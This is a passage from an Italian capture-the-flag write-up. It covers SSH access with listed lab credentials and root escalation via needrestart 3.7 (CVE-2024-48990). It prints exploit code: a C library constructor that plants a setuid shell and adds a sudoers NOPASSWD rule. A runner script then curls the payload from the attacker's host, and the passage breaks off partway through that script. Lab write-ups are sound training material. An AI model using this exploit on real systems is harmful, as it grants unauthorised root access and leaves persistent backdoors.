 Possiamo accedere al servizio ssh con l'utente `fismathack` e la password `Keepmesafeandwarm` ( `ssh fismathack@10.10.11.92`) 
Siamo nella cartella `/home/fismathack` dove c'è il file `user.txt` che contiene la userflag

### Scalata dei privilegi

Con `sudo -l` troviamo:

```
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

Il file `/usr/sbin/needrestart` può essere eseguito dall'utente `fismathack` con privilegi root senza password.
Con `needrestart --version` vediamo che la versione è la 3.7 che è soggetta all'exploit `# CVE-2024-48990`:

1. https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing
2. https://github.com/makuga01/CVE-2024-48990-PoC/

  Come vediamo dal file dell'exploit `runner.sh` che troviamo nella prima repository, è necessaria la presenza sulla macchina vittima di un compilatore c (gcc) che però non è presente sulla macchina. Dobbiamo quindi compilare sulla nostra macchina il file `lib.c` che troviamo nella seconda repository:
  
  ```
  #include <stdio.h>
  #include <stdlib.h>
  #include <sys/types.h>
  #include <unistd.h>
  ```
  

static void a() __attribute__((constructor));

void a() {
 if(geteuid() == 0) { // Only execute if we're running with root privileges
 setuid(0);
 setgid(0);
 const char *shell = "cp /bin/sh /tmp/poc; "
 "chmod u+s /tmp/poc; "
 "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "
 "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers > />
 system(shell);
 }
}

````
Compiliamo `lib.c` con il comando:
`x86_64-linux-gnu-gcc -shared -fPIC -o __init__.so lib.c`
per creare il file `__init__.so`

Modifichiamo il file `runner.sh` come segue:
``` bash
#!/bin/bash
set -e
cd /tmp
mkdir -p malicious/importlib

#chage to your ip and open python http server
curl http://10.10.14.27:8000/__init__.so -o /tmp/malicious/importlib/__init__.so

# Minimal Python script to trigger import
````